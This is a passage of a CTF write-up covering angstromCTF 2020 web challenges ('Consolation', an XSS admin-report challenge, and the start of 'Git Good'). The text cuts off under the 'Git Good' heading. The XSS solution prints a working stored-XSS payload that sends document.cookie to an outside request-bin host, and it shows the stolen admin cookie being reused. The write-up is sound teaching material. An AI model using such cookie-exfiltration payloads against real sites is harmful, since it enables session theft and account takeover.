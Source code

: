 ### Solution

Standard XSS challenge with post functionality and some sort of "report to admin" functionality. The post feature doesn't filter `<img>` tags so we can use that in our payload. Posting something like `<img src=x onerror=fetch('https://enmbvchmqr22f.x.pipedream.net/'+document.cookie)>` and reporting that post to admins gives us the admin cookie: `super_secret_admin_cookie=hello_yes_i_am_admin`. Visit the admin page with this cookie to get the flag:

```bash
$ http https://xmas.2020.chall.actf.co/admin Cookie:super_secret_admin_cookie=hello_yes_i_am_admin | grep actf

        <p>Oh hey admin! The flag is actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}.</p>
```

---

# Consolation <a name="consolation"></a>

## web (50pts)

> I've been feeling down lately... [Cheer me up](https://consolation.2020.chall.actf.co/)!
>
> Author: JoshDaBosh

### Solution

The website is quite minimal; it contins only a button that says "pay me some money" and a bit of text representing some amount of money. The money increases by $25 every time the button is clicked. If we look at the source code we see that the button's `onclick` function is the `nofret` function. The JavaScript for the page is obfuscated but looking at the console (hinted by the title) we see that the console gets cleared when we click the button. If we execute some JavaScript `while(1) { nofret() }` in the console calling the `nofret` function many times, we can see the flag is printed to the console and cleared very shortly after that:

![consolation-flag.png](./assets/consolation-flag.png)

---

# Git Good <a name="git-good"></a>

## web (70pts)

> Did you know that angstrom has a git repo for all the challenges? I noticed that clam committed [a very work in progress challenge](https://gitgood.2020.chall.actf.co/) so I thought it was worth sharing.
>
> Author: aplet123

### Solution
